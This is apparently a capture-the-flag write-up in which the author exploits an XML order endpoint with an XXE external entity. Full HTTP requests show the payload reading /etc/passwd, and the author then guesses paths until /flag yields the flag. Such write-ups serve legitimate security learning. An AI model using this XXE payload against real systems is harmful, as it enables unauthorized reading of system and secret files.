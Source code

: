After analysing the code we notice that the application works with both json and xml.
Since the title of the page says "xxe" we will try to read the flag at /web_xxe/flag using an entity injection.
This is the request we will use with burpsuite:


POST /api/order HTTP/1.1
Host: 178.62.39.119:30757
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://178.62.39.119:30757/
Content-Type: application/xml
Origin: http://178.62.39.119:30757
Content-Length: 103
Connection: close

<?xml version='1.0'?> 
<document>
 <food>WAFfles</food>
 <table_num>d0pey</table_num>

</document>

Using the source: https://portswigger.net/web-security/xxe

POST /api/order HTTP/1.1
Host: 178.62.39.119:30757
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://178.62.39.119:30757/
Content-Type: application/xml
Origin: http://178.62.39.119:30757
Content-Length: 163
Connection: close

<?xml version='1.0'?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> 
<document>
 <food>&xxe;</food>
 <table_num>d0pey</table_num>

</document>

THis works!!!
We can then proceed to try and read the flag. We dont know where the flag is, we can try a bunch of things such as /var/www/html/flag, /home/www/flag, /www/flag.
After sometime i forget about a place, / "root" directory. After /flag we got the flag.

